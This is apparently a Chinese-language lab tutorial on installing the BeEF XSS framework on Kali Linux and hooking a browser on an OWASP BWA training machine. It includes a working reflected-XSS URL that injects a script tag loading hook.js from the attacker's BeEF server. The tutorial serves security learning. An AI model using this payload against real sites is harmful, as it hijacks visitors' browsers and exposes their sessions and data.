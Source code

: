 # 04 xss——BeEF-xss

## 安装

> 吐槽一刻：github拉不下来源码，难受！

该工具安装在kali系统下。

```bash
sudo apt-get install beef-xss -y
```

修改配置文件中的用户名和密码，否则启动会失败。

```bash
sudo vim /etc/beef-xss/config.yaml

beef:
	........
	
	credentials:
		user:    "root"
		passwd:  "1"

	........
```

设置软连接

```bash
sudo ln -s /usr/share/beef-xss/beef /usr/bin/beef
```

启动

```bash
sudo beef
```

或者通过下面方式启动

```bash
sudo beef-xss                                                        
```

进入页面

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210820173842.png)

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210820174337.png)



## 使用示例

可以通过`http://10.4.7.7:3000/hook.js`查看hook.js源码。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210820182335.png)

查看owaspbwa top 10靶机相关页面的状态

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210820180709.png)

构造payload并开始攻击

```
http://10.4.7.5/owaspbricks/content-2/index.php?user=harry%3Cscript%20src=http://10.4.7.7:3000/hook.js%3E%3C/script%3E
```

进入beef页面查看结果

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210820182718.png)

可以看到在这里出现了`10.4.7.5`的目标机器。

